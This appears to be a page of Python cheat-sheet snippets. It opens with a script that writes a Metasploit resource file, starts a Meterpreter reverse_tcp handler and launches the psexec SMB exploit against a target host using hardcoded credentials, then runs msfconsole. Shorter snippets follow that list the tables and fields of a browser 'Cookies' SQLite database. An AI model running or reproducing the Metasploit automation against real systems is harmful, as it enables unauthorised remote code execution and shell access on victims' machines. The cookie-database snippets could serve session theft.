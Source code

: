 ### Driving Metasploit through Python

```python
import os
import sys
def shell(metafile):
  metafile.write('use exploit/multi/handler\n')
  metafile.write('set payload windows/meterpreter/reverse_tcp\n')
  metafile.write('set LHOST 10.0.2.11\n')
  metafile.write('set LPORT 3000\n')
  metafile.write('exploit -j z\n')
  metafile.write('setg DisablePayloadHandler 1\n')

def exploit(metafile):
  metafile.write('use exploit/windows/smb/psexec\n')
  metafile.write('set RHOST 10.0.2.6\n')
  metafile.write('set SMBUser IEUser\n')
  metafile.write('set SMBPass Passw0rd!\n')
  metafile.write('set payload windows/meterpreter/reverse_tcp\n')
  metafile.write('set LHOST 10.0.2.11\n')
  metafile.write('set LPORT 3000\n')
  metafile.write('exploit -j z\n')
  
metafile=open('meta.rc','w')
shell(metafile)
exploit(metafile)
metafile.close()
os.system('msfconsole -r meta.rc')
```

### Access SQLite Databases

#### View tables of a database

```python
import sqlite3
cs=sqlite3.connect('Cookies')  # Connect to a database called Cookies
c=cs.cursor()
c.execute('SELECT tbl_name FROM sqlite_master WHERE type==\"table\";')
for row in c:
  print(str(row))
```

#### View column/field names of a database table

```python
import sqlite3
cs=sqlite3.connect('Cookies')
c=cs.execute('SELECT * FROM cookies;')  # Get everything from cookies table of the Cookies DB
for row in c.description:
  print(row[0])
```
